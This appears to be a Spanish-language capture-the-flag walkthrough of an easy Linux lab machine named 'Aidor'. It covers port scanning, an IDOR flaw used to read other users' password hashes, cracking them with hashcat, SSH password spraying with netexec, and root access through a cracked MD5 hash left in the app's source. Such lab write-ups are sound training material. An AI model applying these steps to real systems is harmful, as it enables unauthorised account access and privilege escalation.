





# Máquina Aidor

#### OS: Linux
#### Tier: Easy
#### IP de ejemplo: 172.17.0.2

## Reconocimiento
comenzamos realizando un escaneo de puertos por tcp con `nmap`:
```
sudo nmap -sS -p- --open --min-rate 5000 -vvv -Pn -n 172.17.0.2
```
```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64
```
dos puertos abiertos: `22/SSH` y `5000`, seguramente un servidor http. Verifiquémoslo con los scripts básicos de nmap (-sC) y tratemos de detectar la versión para cada servicio con -sV 
```
nmap -sCV -p22,5000 -T4 172.17.0.2
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7 (protocol 2.0)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.1.3 Python/3.13.5
|     Date: Thu, 12 Nov 2026 20:30:55 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 12564
|     Connection: close
<SNIP>
```

parece que en el puerto 5000 se está alojando efectivamente una web. Al entrar vemos un panel de login.



no disponemos de credenciales válidas, probemos a registrarnos, ya que se nos da la oportunidad. 



al registrarnos entramos directamente a un panel, donde aparecen datos generales ficticios y `nuestra contraseña en un hash` (una muy mala práctica de por sí; los hashes deben estar en una base de datos bien protegida para evitar ataques. Cualquier error de autenticación/API o un ataque de XSS podría llevar a un account takeover muy rápidamente con esta práctica)

metamos el hash en un archivo hash.txt, e identifiquémoslo con `hashcat`

```
❯ hashcat --identify hash.txt
The following 8 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   1400 | SHA2-256                                                   | Raw Hash
   <SNIP>
```
Hashcat nos dice que es un hash `SHA2-256`. Modo 1400, muy útil por si encontramos más hashes.


#### Initial Infiltration


si seguimos investigando veremos referencias a nuestro id de usuario tanto en la url como en la esquina inferior izquierda del dashboard



probamos a cambiar el id en la URL a 54:



estamos viendo datos de otros usuarios. Se está aconteciendo un `IDOR (Insecure Direct Object Reference)`, es decir, se está haciendo una referencia directa, por la URL, a un objeto, en este caso el ID de usuario, de forma insegura, pues no tenemos la autorización de los otros usuarios para acceder a sus dashboards. 

si probamos manualmente hay datos desde el id 3 al id 55. Vamos a meter los hashes de los usuarios 50-54 en un archivo leak.txt, y trataremos de crackearlo con hashcat. Lo escribiremos con el prefijo ID:HASH, para poder identificar la contraseña del usuario por su ID, con el formato --username en hashcat. Ya que sabemos el formato (SHA2-256) de antes, probemos a romperlos:
```
❯ hashcat -a 0 -m 1400 leak.txt --username /usr/share/wordlists/rockyou.txt --show
```
> el --show lo añadimos una vez ya están crackeados, para ver a qué ID pertenecen
```
54:7499aced43869b27f505701e4edc737f0cc346add1240d4ba86fbfa251e0fc35:chocolate
53:7c9e7c1494b2684ab7c19d6aff737e460fa9e98d5a234da1310c97ddf5691834:pepe
52:dd0284ae23bfe3ed87de34568afa73e03380b7990fcb69b2d11cc902eb1060a3:pingu
51:5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8:password
50:5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8:password
```
tenemos 3 contraseñas únicas, y su respectivo usuario (resto de hashes son password). vamos a crear una lista users.txt, y una passwords.txt, para realizar password spraying con netexec al servicio SSH. Debería quedar así:
```
───────┬──────────────────────────────────────────────────────────────────────────────────────
       │ File: usernames.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ aidor
   2   │ pepe
   3   │ pingu
───────┴──────────────────────────────────────────────────────────────────────────────────────
───────┬──────────────────────────────────────────────────────────────────────────────────────
       │ File: passwords.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ chocolate
   2   │ pepe
   3   │ pingu
───────┴──────────────────────────────────────────────────────────────────────────────────────
```

con eso, lancemos netexec
```
❯ netexec ssh 172.17.0.2 -u usernames.txt -p passwords.txt --continue-on-success
```
con el argumento `ssh` le indicamos el servicio a probar. `-u` y `-p` indican los diccionarios de usuarios y contraseñas, respectivamente, y `--continue-on-success` se usa por si hubiera más de una combinación correcta. 

pronto nos muestra una combinación correcta:
```
SSH         172.17.0.2      22     172.17.0.2       [+] aidor:chocolate  Linux - Shell access!
<SNIP>
```
entremos via ssh como el usuario aidor
```
aidor@0c46e6bcb850:~$ id
uid=1000(aidor) gid=1000(aidor) groups=1000(aidor),100(users)
```

## Privilege Escalation

ahora que estamos como aidor en la máquina, vamos a escalar privilegios. Empezamos listando permisos a nivel de sudoers:
```
aidor@0c46e6bcb850:~$ sudo -l
-bash: sudo: command not found
```
parece que no existe sudo en esta máquina. Tampoco estamos en ningún grupo (id) ni hay binarios SUID que podamos aprovechar (find / -perm -4000 2>/dev/null). Si listamos /home en busca de otros usuarios, vemos archivos relacionados con la web:

```
aidor@0c46e6bcb850:/home$ ls
aidor  app.py  database.db  templates
```
database.db es la base de datos de la web. 



vemos que el hash de admin se corresponde a un hash SHA1, usando la misma técnica de hahscat --identify. Al romperlo la contraseña es admin, pero ni funciona en la web del puerto 5000 ni existe un usuario admin
```
aidor@0c46e6bcb850:/home$ cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
aidor:x:1000:1000:aidor,,,:/home/aidor:/bin/bash
```
también vemos app.py, el cual parece el código fuente del backend de la página. Una parte llama especialmente nuestra atención, pues vuelve a salir un hash:

```
       # Insertar un usuario de ejemplo si la tabla está vacía
        cursor.execute('SELECT COUNT(*) FROM users')
        count = cursor.fetchone()[0]
        # if count == 0:
        #     cursor.execute('''
        #     INSERT INTO users (username, password, email) VALUES
        #     ('root', 'aa87ddc5b4c24406d26ddad771ef44b0', 'admin@example.com')
        #     ''')  # La contraseña "admin" es hash SHA-256
```
esta vez del usuario root. No sabemos si es válido, pero parece md5. Vamos a tratar de crackearlo usando el modo 0 de Hashcat (md5)
> podemos intuir que es un hash md5 pues tiene 32 caracteres únicamente integrados con letras (a-f) y números (0-9).

```
❯ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
```
```
aa87ddc5b4c24406d26ddad771ef44b0:estrella
```
una contraseña simple. Tratemos de entrar con ella al usuario root

```
aidor@0c46e6bcb850:/home$ su root

Password: 
root@0c46e6bcb850:/home# whoami
root
```
hemos escalado privilegios exitosamente. Máquina resuelta.
